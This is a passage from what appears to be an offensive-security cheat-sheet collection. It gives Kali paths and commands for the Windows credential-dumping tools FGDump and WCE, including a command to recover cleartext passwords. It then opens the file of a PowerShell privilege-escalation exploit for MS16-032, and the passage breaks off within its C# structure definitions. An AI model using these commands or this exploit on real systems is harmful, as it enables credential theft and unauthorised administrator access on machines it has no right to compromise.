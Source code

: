 
### FGDump

Kali Path:  /usr/share/windows-binaries/fgdump/fgdump.exe


### WCE

Kali Paths:
* /usr/share/wce/wce32.exe
* /usr/share/wce/wce64.exe
* /usr/share/wce/wce-universal.exe

Get pass

`wce-universal.exe `

Try to get pass into clear text

`wce-universal.exe -w`









---
File: /CheatSheets/windows/priv_esc/Invoke-MS16-032.ps1
---

function Invoke-MS16-032 {
	Add-Type -TypeDefinition @"
	using System;
	using System.Diagnostics;
	using System.Runtime.InteropServices;
	using System.Security.Principal;
	
	[StructLayout(LayoutKind.Sequential)]
	public struct PROCESS_INFORMATION
	{
		public IntPtr hProcess;
		public IntPtr hThread;
		public int dwProcessId;
		public int dwThreadId;
	}
	
	[StructLayout(LayoutKind.Sequential, CharSet=CharSet.Unicode)]
	public struct STARTUPINFO
	{
		public Int32 cb;
		public string lpReserved;
		public string lpDesktop;
		public string lpTitle;
		public Int32 dwX;
		public Int32 dwY;
		public Int32 dwXSize;
		public Int32 dwYSize;
		public Int32 dwXCountChars;
		public Int32 dwYCountChars;
		public Int32 dwFillAttribute;
		public Int32 dwFlags;
		public Int16 wShowWindow;
		public Int16 cbReserved2;
		public IntPtr lpReserved2;
		public IntPtr hStdInput;
		public IntPtr hStdOutput;
		public IntPtr hStdError;
	}
	